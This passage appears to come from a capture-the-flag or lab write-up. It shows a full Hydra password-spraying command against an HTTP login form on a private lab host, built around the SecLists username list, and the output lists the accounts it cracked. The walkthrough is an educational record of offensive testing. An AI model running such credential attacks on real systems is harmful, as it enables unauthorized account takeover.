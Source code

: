 <p align="center">
  <img src="images/guest_guest.png">
</p>

With the above knowledge of the site's login mechanism, I figured it would be a good idea to check if there are other users for whom the password is also set to `guest`. With that, I turned my attention to Hydra.

### Hydra

To make sure that a large database with usernames is taken into account, I used the file [`xato-net-10-million-usernames.txt`.](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames.txt). I considered the following attack scenario:
- setting the permanent password to `guest`
- providing a list of logins from the `xato-net-10-million-usernames.txt` file
- setting port 8080
- pointing to the POST method (login)
- substitution of logins from the file
- searching for the string `Invalid username` so that the program knows that the data entered is incorrect

The final command used for the attack looks as follows:

```
┌─[parrot@parrot]─[~]
└──╼ $hydra -p guest -s 8080 -L Desktop/xato-net-10-million-usernames.txt 192.168.100.153 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
(...)
[DATA] attacking http-post-form://192.168.100.153:8080/:username=^USER^&password=^PASS^:Invalid username.
[8080][http-post-form] host: 192.168.100.153   login: guest   password: guest
(...)
[8080][http-post-form] host: 192.168.100.153   login: magellan   password: guest
(...)
[8080][http-post-form] host: 192.168.100.153   login: venus   password: guest
```
